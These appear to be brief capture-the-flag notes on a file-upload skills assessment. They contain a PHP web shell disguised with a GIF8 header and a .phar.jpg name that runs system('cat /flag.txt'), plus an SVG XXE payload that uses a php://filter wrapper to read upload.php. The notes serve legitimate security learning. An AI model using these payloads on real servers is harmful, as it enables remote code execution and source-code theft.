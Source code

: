 # Skills Assessment
**Task**
You are contracted to perform a pentest for a company's e-commerce web app. The web app is in its early stages, so you only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validation in place to gain remote code execution on the back-end server.

Try to note down the main security issues found with the web application and the necessary security measures to mitigate and prevent exploitation

Try to exploit the upload from to read the flag on the root directory "/"

**Step**
upload the file 'file_upload.phar.jpg' 
```php
GIF8
<?php system('cat /flag.txt'); ?>
```
Its MIME type imitaes gif too. 


tweaked a payload from PayloadsAllTheThing
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
saved it as svg_xxe.jpg and upload it.